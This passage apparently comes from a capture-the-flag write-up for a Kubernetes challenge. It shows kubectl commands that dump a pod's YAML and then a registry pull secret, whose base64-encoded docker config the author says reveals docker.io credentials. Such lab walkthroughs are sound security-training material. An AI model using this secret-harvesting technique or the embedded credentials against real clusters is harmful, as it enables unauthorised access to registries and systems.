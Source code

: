 ```
# kubectl get pods database-pod-2c9b3a4e -o yaml

apiVersion: v1
kind: Pod
metadata:
  annotations:
    kubernetes.io/psp: eks.privileged
    pulumi.com/autonamed: "true"
  creationTimestamp: "2023-11-01T13:32:05Z"
  name: database-pod-2c9b3a4e
  namespace: challenge2
  resourceVersion: "12166896"
  uid: 57fe7d43-5eb3-4554-98da-47340d94b4a6
spec:
  containers:
  - image: eksclustergames/base_ext_image
    imagePullPolicy: Always
    name: my-container
    resources: {}
    terminationMessagePath: /dev/termination-log
    terminationMessagePolicy: File
    volumeMounts:
    - mountPath: /var/run/secrets/kubernetes.io/serviceaccount
      name: kube-api-access-cq4m2
      readOnly: true
  dnsPolicy: ClusterFirst
  enableServiceLinks: true
  imagePullSecrets:
  - name: registry-pull-secrets-780bab1d
.
.
.
  - containerID: containerd://8010fe76a2bcad0d49b7d810efd7afdecdf00815a9f5197b651b26ddc5de1eb0
    image: docker.io/eksclustergames/base_ext_image:latest
    imageID: docker.io/eksclustergames/
.
.
.
```

Here I saw the image used is `docker.io/eksclustergames/base_ext_image:latest` and there exists a secret `registry-pull-secrets-780bab1d`, which is used to pull the image. Looking at the secret revealed the credentials used to authenticate with docker.io.

```
# kubectl get secrets registry-pull-secrets-780bab1d -o yaml

apiVersion: v1
data:
  .dockerconfigjson: eyJhdXRocyI6IHsiaW5kZXguZG9ja2VyLmlvL3YxLyI6IHsiYXV0aCI6ICJaV3R6WTJ4MWMzUmxjbWRoYldWek9tUmphM0pmY0dGMFgxbDBibU5XTFZJNE5XMUhOMjAwYkhJME5XbFpVV280Um5WRGJ3PT0ifX19
kind: Secret
metadata:
  annotations:
    pulumi.com/autonamed: "true"
  creationTimestamp: "2023-11-01T13:31:29Z"
  name: registry-pull-secrets-780bab1d
  namespace: challenge2
  resourceVersion: "897340"
  uid: 1348531e-57ff-42df-b074-d9ecd566e18b
type: kubernetes.io/dockerconfigjson
```
